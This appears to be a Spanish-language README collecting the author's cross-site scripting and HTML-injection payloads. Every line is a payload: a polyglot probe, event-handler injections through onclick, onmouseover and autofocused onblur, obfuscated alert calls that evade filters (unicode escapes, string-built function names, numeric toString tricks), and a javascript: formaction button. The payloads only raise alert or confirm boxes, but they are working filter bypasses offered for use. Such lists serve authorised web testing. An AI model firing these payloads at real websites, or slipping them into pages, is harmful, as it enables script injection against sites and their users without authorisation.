 # Recopilación de todos los Payloads usados / creados por mi.


### Para detectar errores: sql inyection, xss inyection y HTML inyection

`'"><script>alert`1`</script><h1>d</h1>`

### h1

```
<h1 onclick=\u0041\u006cert("_Y000!_")>Y00</h1>

<a onclick=\u0041\u006cert("_Y000!_")>Y00</a>

<p onclick=\u0041\u006cert("_Y000!_")>Y00</p>

<marquee onclick=\u0041\u006cert("_Y000!_")>Y00</marquee>

```

### onMouseOver

```
onMouseOver=<script>alert("/XSS BY Y000!/")</script>

</script><h1 onmouseover= top[8680439..toString(30)]("_Y000!_")>

</script><h1 onmouseover=top[/al/.source+/ert/.source]("_Y000!_")>

</script><h1 onmouseover=["_Y000!_"].find(alert)>

</script><h1 onmouseover= (((confirm)))`_Y000!_`>
```

### input + onblur + Obfuscation

```

<input onblur=top[/al/.source+/ert/.source]("_Y00!_") autofocus><input autofocus>

<input onblur=["_Y00!_"].find(alert) autofocus><input autofocus>

<input onblur=(((confirm)))("_Y00!_") autofocus><input autofocus>

```


### Xss dentro de un botón en form:

`<form><button formaction=javascript&colon;alert('xss_by_Y000!')>_Y000!_`
